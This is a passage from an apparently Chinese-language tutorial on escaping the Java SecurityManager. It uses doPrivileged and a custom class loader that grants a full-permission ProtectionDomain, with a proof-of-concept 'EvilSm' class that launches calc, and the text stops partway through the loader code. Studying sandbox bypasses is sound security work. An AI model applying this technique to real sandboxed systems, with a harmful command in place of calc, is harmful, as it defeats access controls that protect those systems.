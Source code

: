 
## 创建类加载器绕过SM

在于之前提到的：

> AccessController还提供了doPrivilege方法，当这个方法被调用时，AccessController亦会自顶向下遍历当前栈，不过只会遍历到调用doPrivileged方法的栈帧就会停止。例如Main.main调用Class1.fun1()，Class1.fun1()调用了doPrivileged方法，在doPrivileged方法中进行了一些操作，AccessController的检查只会遍历到Class1.fun1()，看Class1是否有权限。
>
> doPrivileged是非常危险的，因为它截断了AccessController的检查。

以及：

> 这里调用了defineClass(null, b, off, len, null)，最后一个参数null是ProtectionDomain的值



所以因为类加载器默认加载的时候`ProtectionDomain`为null，自定义类加载器让`ProtectionDomain`是具有全部权限的即可。

```java
import java.security.AccessController;
import java.security.PrivilegedAction;

public class EvilSm {
    static{
        //在doPrivileged中执行恶意操作
        AccessController.doPrivileged(new  PrivilegedAction()  {
            @Override
            public  Object run() {
                try {
                    Runtime.getRuntime().exec("calc");
                    return null;
                }catch (Exception e){
                    e.printStackTrace();
                    return null;
                }
            }
        });

    }
}

```

```java
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.nio.ByteBuffer;
import java.nio.channels.Channels;
import java.nio.channels.FileChannel;
import java.nio.channels.WritableByteChannel;
import java.security.*;
import java.security.cert.Certificate;

public class MyClassLoader extends ClassLoader {
    public MyClassLoader() {
    }

    public MyClassLoader(ClassLoader parent) {
        super(parent);
    }

    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        File file = getClassFile(name);
        try {
            byte[] bytes = getClassBytes(file);
```